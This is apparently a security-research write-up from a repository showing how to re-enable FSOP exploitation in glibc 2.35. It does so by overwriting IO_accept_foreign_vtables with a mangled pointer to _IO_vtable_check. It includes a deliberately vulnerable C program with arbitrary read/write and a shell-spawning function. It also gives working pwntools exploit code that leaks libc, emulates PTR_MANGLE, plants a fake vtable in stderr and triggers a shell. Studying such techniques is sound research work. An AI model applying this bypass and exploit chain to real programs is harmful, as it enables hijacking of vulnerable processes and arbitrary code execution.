



# Re-enabling FSOP on GLIBC 2.35 like a mad man.


## Introduction

Most people who have done binary exploitation has at some point, run into the concept of FSOP.

Patched in GLIBC 2.27, FSOP is an exploitation technique, which abuses moving the vtable of a file pointer to an arbitrary location, which means you can point it at any table you so desire. This can in turn grant RIP control.

I was digging around GLIBC source, trying to find a good way to move the file pointer vtables for an obfuscation technique. Because of this I was digging around to see how the check for whether the vtable is in-bounds was performed.

Que that I found the following code:

```C
/* If equal to &_IO_vtable_check (with pointer guard protection),
   unknown vtable pointers are valid.  This function pointer is solely
   used as a flag.  */
extern void (*IO_accept_foreign_vtables) (void) attribute_hidden;

/* Assigns the passed function pointer (either NULL or
   &_IO_vtable_check) to IO_accept_foreign_vtables.  */
static inline void
IO_set_accept_foreign_vtables (void (*flag) (void))
{
#ifdef PTR_MANGLE
  PTR_MANGLE (flag);
#endif
  atomic_store_relaxed (&IO_accept_foreign_vtables, flag);
}
```

A-ha.. So you're telling me. That I might be able to disable the vtable check during runtime?

The answer is yes. But requires a really strong primitive. Let's build a PoC together.

### Post-publication note(s)
After further research it came to my attention that you don't actually need to be able to leak the PTR_MANGLE secret, but in fact you can just overwrite it with 0x0, or any value you know.

LIBC leak is still required, but now you don't actually need a leak within LIBC as well. Which makes the attack significantly easier to perform.

However it should be noted that to even abuse this the attacker needs atleast one of the following two strong primitives:
```
3 arbitrary writes
  1. Overwrite FP vtable
  2. Overwrite PTR_MANGLE secret
  3. Overwrite IO_accept_foreign_vtables
1 libc leak
The ability to place a fake vtable at a known address (Does not have to be arbitrary write)
```

Or

```
2 arbitrary writes
  1. Overwrite FP vtable
  2. Overwrite IO_accept_foreign_vtables
1 libc leak
1 arbitrary read inside of libc
The ability to place a fake vtable at a known address (Does not have to be arbitrary write)
```

An example exploit has been added to the code folder, called `exploit_one_leak_only.py` which uses overwriting the PTR_MANGLE secret instead of leaking it.

## The test program

First we'll need a test program. We'll just write a really quick and simple C program which allows for arbitrary read and write.

We'll also create an option for fflushing stderr, so we can test if moving our vtable worked.

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


void unreachable(){
    system("/bin/sh");
    
}

void read_where(unsigned long address){
    printf("Your leak: %p\n",*(long*)address);
}

void write_what_where(unsigned long address, unsigned long item){
    *((long*)address) = item;
}

void fflush_stderr(){
    fflush(stderr);
}

void print_menu(){
    printf("What would you like to do?\n");
    printf("1. read\n");
    printf("2. write\n");
    printf("3. fflush(stderr)\n");
}

unsigned long get_choice(){
    char buf[256] = {0};
    fgets(buf,256,stdin);
    return strtoul(buf,NULL,10);
}

int main(void){
    while(1){
        int choice;
        long address, what;
        print_menu();
        choice = get_choice();
        switch(choice){
            case 1:
                printf("Where?\n");
                address = get_choice();
                read_where(address);
                break;
            case 2:
                printf("Where?\n");
                address = get_choice();
                printf("What?\n");
                what = get_choice();
                write_what_where(address,what);
                break;
            case 3:
                fflush_stderr();
                break;
            default:
                break;
        }
    }
}
```

We'll compile without PIE so we dont have to do calculations all the time for PIE base:

```bash
gcc -no-pie main.c -o main
```

We'll use [pwntools](https://github.com/Gallopsled/pwntools) to create the exploit itself.

## Boilerplate

Now this has been setup. Let's create some boilerplate code for reading and writing values, using pwntools:


```py
from pwn import *

gdbscript = """
b *main
c
"""

io = gdb.debug("./main",gdbscript=gdbscript)

def read(address):
    io.recvuntil(b'?')
    io.sendline(b'1')
    io.recvuntil(b'Where?')
    io.sendline(f"{address}".encode())
    io.recvuntil(b'Your leak: ')
    leak = io.recvline()[:-1]
    return int(leak,16)

def write(address, what):
    io.recvuntil(b'?')
    io.sendline(b'2')
    io.recvuntil(b'Where?')
    io.sendline(f"{address}".encode())
    io.recvuntil(b'What?')
    io.sendline(f"{what}".encode())

def fflush():
    io.recvuntil(b'?')
    io.sendline(b'3')

```

Now that we can read and write easily, we start off by leaking libc and calculate the base address of libc. Standard stuff:

NOTE: I'm doing this on `Ubuntu GLIBC 2.35-0ubuntu3.1`, a copy of it can be found in this repo. Your offsets may differ

```py
puts_leak = read(0x404018)
libc_base = puts_leak - 0x80ed0

log.info(f"LIBC BASE: {libc_base:#x}")
```

Once libc is leaked, we can get to the fun part.

## PTR_MANGLE

Let's take a look at the vtable disabling code again:

```C
/* If equal to &_IO_vtable_check (with pointer guard protection),
   unknown vtable pointers are valid.  This function pointer is solely
   used as a flag.  */
extern void (*IO_accept_foreign_vtables) (void) attribute_hidden;

/* Assigns the passed function pointer (either NULL or
   &_IO_vtable_check) to IO_accept_foreign_vtables.  */
static inline void
IO_set_accept_foreign_vtables (void (*flag) (void))
{
#ifdef PTR_MANGLE
  PTR_MANGLE (flag);
#endif
  atomic_store_relaxed (&IO_accept_foreign_vtables, flag);
}
```

As we can see, to disable the vtable check we have to store mangled pointer to `_IO_vtable_check` inside of `IO_accept_foreign_vtables`

If we check `_IO_vtable_check` we can also see it demangles it before it checks it:

```C
void attribute_hidden
_IO_vtable_check (void)
{
#ifdef SHARED
  /* Honor the compatibility flag.  */
  void (*flag) (void) = atomic_load_relaxed (&IO_accept_foreign_vtables);
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (flag);
#endif
  if (flag == &_IO_vtable_check)
    return;

  /* In case this libc copy is in a non-default namespace, we always
     need to accept foreign vtables because there is always a
     possibility that FILE * objects are passed across the linking
     boundary.  */
  {
    Dl_info di;
    struct link_map *l;
    if (!rtld_active ()
        || (_dl_addr (_IO_vtable_check, &di, &l, NULL) != 0
            && l->l_ns != LM_ID_BASE))
      return;
  }

#else /* !SHARED */
  /* We cannot perform vtable validation in the static dlopen case
     because FILE * handles might be passed back and forth across the
     boundary.  Therefore, we disable checking in this case.  */
  if (__dlopen != NULL)
    return;
#endif

  __libc_fatal ("Fatal error: glibc detected an invalid stdio handle\n");
}
```

So first we need to emulate this PTR_MANGLE function. Let's check the implementation:

```C
#if IS_IN (rtld)
/* We cannot use the thread descriptor because in ld.so we use setjmp
   earlier than the descriptor is initialized.  */
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xor __pointer_chk_guard_local(%rip), reg;    \
				rol $2*LP_SIZE+1, reg
#  define PTR_DEMANGLE(reg)	ror $2*LP_SIZE+1, reg;			     \
				xor __pointer_chk_guard_local(%rip), reg
# else
#  define PTR_MANGLE(reg)	asm ("xor __pointer_chk_guard_local(%%rip), %0\n" \
				     "rol $2*" LP_SIZE "+1, %0"			  \
				     : "=r" (reg) : "0" (reg))
#  define PTR_DEMANGLE(reg)	asm ("ror $2*" LP_SIZE "+1, %0\n"		  \
				     "xor __pointer_chk_guard_local(%%rip), %0"   \
				     : "=r" (reg) : "0" (reg))
# endif
#else
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xor %fs:POINTER_GUARD, reg;		      \
				rol $2*LP_SIZE+1, reg
#  define PTR_DEMANGLE(reg)	ror $2*LP_SIZE+1, reg;			      \
				xor %fs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xor %%fs:%c2, %0\n"		      \
				     "rol $2*" LP_SIZE "+1, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("ror $2*" LP_SIZE "+1, %0\n"	      \
				     "xor %%fs:%c2, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
```

This looks unnecessarily complicated. And that's because it is. What I found out was basically the following assembly is what demangles (pseudo code):

PTR_MANGLE(var)
```C
mov rax, $var
ror rax, 0x11
xor rax, qword ptr fs:[0x30]
```

But oh no! You might say. It uses a special register that is a pain to access! Don't worry. If we jump to the assembly that does this, we will see that the value is actually stored in the first anonymous page that libc creates:





So all we need to do is leak that value and emulate the PTR_MANGLE function. Should be simple!

### PTR_MANGLE code emulation

Basically we just need to leak the random value that libc generates from the page.

Once that is done, we can xor our value with it, then rotate it left by 0x11, and we have our mangled pointer

PTR_MANGLE emulated:

```py
def PTR_MANGLE(val,secret):
    #Shamelessly stolen from https://gist.github.com/trietptm/5cd60ed6add5adad6a34098ce255949a
    rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

    mangled = val^secret
    mangled = rol(mangled,0x11,64)

    return mangled
```

## Disabling the vtable check

Now that we have the PTR_MANGLE out of the way we just need to disable the vtable check!

Let's take a look at the function one last time:

```C
/* If equal to &_IO_vtable_check (with pointer guard protection),
   unknown vtable pointers are valid.  This function pointer is solely
   used as a flag.  */
extern void (*IO_accept_foreign_vtables) (void) attribute_hidden;

/* Assigns the passed function pointer (either NULL or
   &_IO_vtable_check) to IO_accept_foreign_vtables.  */
static inline void
IO_set_accept_foreign_vtables (void (*flag) (void))
{
#ifdef PTR_MANGLE
  PTR_MANGLE (flag);
#endif
  atomic_store_relaxed (&IO_accept_foreign_vtables, flag);
}
```
The comments state that we need to set `IO_accept_foreign_vtables` to a mangled pointer to `_IO_vtable_check`

So we need to:

1) Leak the PTR_MANGLE secret
2) Calculate offset to `IO_accept_foreign_vtables`
3) Calculate offset to `_IO_vtable_check`
4) Mangle the `_IO_vtable_check` pointer with the PTR_MANGLE secret and store it in `_IO_accept_foreign_vtables`

The following code does exactly that:

```py
#Leak the mangle secret
mangle_secret = read(libc_base-0x2890)
log.info(f"PTR_MANGLE secret: {mangle_secret:#x}")

#Calculate the offsets
IO_accept_foreign_vtables = libc_base+0x21ba28
IO_vtable_check = libc_base+0x89f70

#Mangle the pointer and store it
write(IO_accept_foreign_vtables,PTR_MANGLE(IO_vtable_check,mangle_secret))
```

## Making a fake vtable AKA Checking if it works

Now all that's left is creating a fake vtable so we can check if it works, then trigger it.

I decided to just fill the vtable with pointers to unreachable. But you can literally fill it with anything.

```py
#Now we make a fake vtable and replace it in stderr, then trigger a call to it
stderr = libc_base+0x21a6a0

def make_fake_vtable(address):
    unreachable_addr = 0x4011f6

    #First two entries in a vtable are always 0
    for i in range(0,2):
        write(address,0x0)
        address+=8
    
    #Just fill the vtable with pointers to unreachable.
    for i in range(0,19):
        write(address,unreachable_addr)
        address+=8

make_fake_vtable(0x404800)
#Change the pointer to our vtable in stderr
write(stderr+216, 0x404800)
#Make sure it triggers a check in the vtable
write(stderr,0xfbad1800)

#Trigger it
fflush()
```

If everything worked correctly this should spawn a shell! And it sure did! We've successfully re-enabled FSOP!



## FAQ
**Q:**

Can I have a full PoC just written in C?

**A:**

Yes. I decided to not make the writeup with writing it in C, as the symbols for `_IO_vtable_check` and `IO_accept_foreign_vtables` are both missing when compiling GLIBC.

However as far as I could see, `fmemopen` always comes before `_IO_vtable_check` (atleast in GLIBC 2.31 and 2.35). From there you can do some dumb memory searches to find the addresses.

The PoC can be found in the code folder of this repo and is just called c_poc.c.

**Q:**

Why?

**A:**

Cause it's funny :-)

**Q:**

What is this useful for?

**A:**

Nothing at the moment. Maybe very specific cases. However with more mitigations being implemented every single day, this may become useful in the future.

